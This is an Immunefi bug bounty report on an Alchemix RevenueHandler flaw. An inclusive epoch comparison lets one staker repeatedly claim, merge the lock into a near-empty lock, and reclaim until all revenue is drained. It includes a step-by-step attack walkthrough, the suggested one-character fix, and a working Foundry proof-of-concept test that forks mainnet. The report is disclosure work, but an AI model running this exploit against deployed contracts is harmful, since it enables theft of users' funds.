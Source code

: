 
# Stealing all revenue from the Alchemix protocol

Submitted on Sun May 19 2024 21:18:32 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31472

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

The `RevenueHandler` receives all revenue from the Alchemix protocol, and allows *veALCX stakers* to claim it.

This report shows how 1 malicious staker can steal all funds in the `RevenueHandler`.

A coded Proof of Concept was added to this report.

## Vulnerability Details

In report **30800** we discover how to steal FLUX by *claiming* rewards, then *merging staked positions* and *re-claiming* with an inflated balance.

For the past 14 days, we wondered how to execute a similar attack vector but to steal all revenue from the Alchemix protocol inside the `RevenueHandler`. Today we found a flag in the code that makes it possible.

### The vulnerable function

The bug is in the internal function `_claimable(..)` of `RevenueHandler`. Here's the relevant part:

```javascript
function _claimable(uint256 tokenId, address token) internal view returns (uint256) {

		// Some code here was removed for simplicity...

		for (
				uint256 epochTimestamp = lastClaimEpochTimestamp + WEEK;
				epochTimestamp <= currentEpoch;
				epochTimestamp += WEEK
		) {
				uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
				if (epochTotalVeSupply == 0) continue;
				uint256 epochRevenue = epochRevenues[epochTimestamp][token];
				uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
				totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
		}
		return totalClaimable + userCheckpoints[tokenId][token].unclaimed;
}
```
> Github link: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol#L297-L326

The "`for`" loop distributes rewards until the `epochTimestamp` is less **OR EQUAL** than the timestamp for the current epoch.

Transferring rewards to the owner of a veALCX position based on the current balance of the lock is a mistake because veALCX positions can be merged with almost empty positions, allowing for an infinite claiming-merging-reclaiming cycle until no funds are left in the `RevenueHandler`.

The vulnerability can be fixed by replacing `epochTimestamp <= currentEpoch` with `epochTimestamp < currentEpoch`.

### Attack Vector Explained

**Step 1-** Batman and Superman create two `veALCX` Locks, each with **1e18** BPT tokens.

**Step 2-** Joker creates 2 locks, one of them with **1e18** BPT and the second with **1 WEI** of BPT.

> The current timestamp is `1682553635`. During the next blocks an arbitrary amount of revenue is collected by the RevenueHandler, for this example let's say it is `2000e18`.

**Step 3-** Time moves forward to a new epoch, the current timestamp is `1683763200`, and Joker creates a checkpoint in the RevenueHandler and VotingEscrow by calling:
```
revenueHandler.checkpoint();
veALCX.checkpoint();
```

> Right now, the revenue tokens Joker can claim with his lock of **1e18** BPTs is `668036131103950037396`, and for his second lock with **1 WEI** BPT is `0`.
>
> Therefore, the total reward he can claim for his two locks is `668036131103950037396 + 0 = 668036131103950037396`.

**Step 4-** Joker claims all rewards for his **1e18** lock.

**Step 5-** Joker merges the balance of his **1e18** lock with his **1 WEI** lock.

**Step 6-** Joker claims all rewards for his second lock (with an inflated balance).

> Joker's rewards balance is now `1336073005660618375927` instead of `668036131103950037396`.

This can be repeated with more almost-empty locks to drain the protocol fully.

## Impact Details
Stealing all revenue from the Alchemix protocol


        
## Proof of concept
## Proof of Concept

In the `RevenueHandlerTest ` paste this test and run it with the same timestamp and block used in the test suite.

Run test with:
``` 
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{YOUR_API_KEY} --match-test "testBugInClaim" --fork-block-number 17133822 -vv
```

PoC:
```
		function testBugInClaim() external {

				console2.log(block.timestamp);

				uint256 _tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
				uint256 _tokenId2 = createVeAlcx(admin, 1, MAXTIME, true);
				uint256 _tokenId3 = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
				uint256 _tokenId4 = createVeAlcx(admin, TOKEN_1, MAXTIME, true);

				hevm.warp(block.timestamp + (ONE_EPOCH_TIME - 35)); // Current timestamp plus (2 weeks minus 35 seconds)
				hevm.roll(block.number + ONE_EPOCH_BLOCKS);

				// We accrue revenue
				uint256 revAmt = 2000e18;
				_accrueRevenue(dai, revAmt);

				// Then we checkpoint
				revenueHandler.checkpoint();
				veALCX.checkpoint();

				console2.log("alUSD balance before:", IERC20(alusd).balanceOf(admin)); // 0

				console2.log("Claimable for _tokenId1:", revenueHandler.claimable(_tokenId1, alusd)); // 668036131103950037396
				console2.log("Claimable for _tokenId2:", revenueHandler.claimable(_tokenId2, alusd)); // 0
				console2.log("Balance after claiming should be _tokenId1 + _tokenId2 = ", revenueHandler.claimable(_tokenId1, alusd) + revenueHandler.claimable(_tokenId2, alusd));

				hevm.startPrank(admin);

				// Claim _tokenId1
				revenueHandler.claim(_tokenId1, alusd, address(0), revenueHandler.claimable(_tokenId1, alusd), admin);

				// Merge _tokenId1 and _tokenId2
				veALCX.merge(_tokenId1, _tokenId2);

				// Claim _tokenId2
				revenueHandler.claim(_tokenId2, alusd, address(0), revenueHandler.claimable(_tokenId2, alusd), admin);

				hevm.stopPrank();

				console2.log("Actual finanl balance:", IERC20(alusd).balanceOf(admin));
    }

```